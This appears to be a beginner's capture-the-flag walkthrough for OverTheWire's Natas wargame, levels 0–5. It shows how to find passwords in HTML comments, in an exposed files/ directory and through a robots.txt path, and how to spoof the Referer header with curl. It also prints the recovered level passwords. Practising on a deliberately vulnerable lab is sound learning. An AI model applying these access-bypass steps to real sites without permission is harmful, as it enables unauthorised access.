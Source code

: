 # overthewire.org

> [!Important] 
> The description of each step is essentially derived from the previous step. For example, the solution to Natas1 is something that must be found in Natas0.

- All user is name of levels

        http://natas`X`.natas.labs.overthewire.org/

        user:natas`X`
        pass:*******

## natas0 http://natas0.natas.labs.overthewire.org/

- He himself gave us the username and password in overthewire.org for start HACKGAME.

        user:natas0
        pass:natas0

## natas1 http://natas1.natas.labs.overthewire.org/

1. Get the page's source.
2. Look the HTML comment.

        <!--The password for natas1 is 0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq -->

## natas2 http://natas2.natas.labs.overthewire.org/

- You cannot right-click.
1. Get the page's source.
2. Look the HTML comment.

        <!--The password for natas2 is TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI -->

## natas3 http://natas3.natas.labs.overthewire.org/

- There is nothing in the page's source.
1. Get the page's source.
2. In source you can find .

        <img src="files/pixel.png">

3. So we have a path named `files/` and access to that path is not blocked.
        
    in this path you can find : `users.txt`

        # username:password
        alice:BYNdCesZqW
        bob:jw2ueICLvT
        charlie:G5vCxkVV3m
        natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH <-| The password is here.
        eve:zo4mJWyNj2
        mallory:9urtcpzBmH

## natas4 http://natas4.natas.labs.overthewire.org/

- he have comment in page's source

        <!-- Not even Google will find it this time... -->

1. Sites often use a ‍‍‍‍‍‍‍‍`robots.txt` file in root of site to tell search engines what files and paths they should not see.

        http://natas3.natas.labs.overthewire.org/robots.txt

    in this file you can find a path : `/s3cr3t/`

2. go to : `http://natas3.natas.labs.overthewire.org/s3cr3t/`

    in this path you can find : `users.txt`

        natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ

## natas5 http://natas5.natas.labs.overthewire.org/

- he has a text message :

        You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"

2. When you click `Reload Page`, the message changes to this :

        Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/index.php" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"

    you need change `Referer` HTTP header

3. for change referer http header, i use `curl`

    i run ubuntu in windows with `wsl`

        ~$ curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org

    tada :

        Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK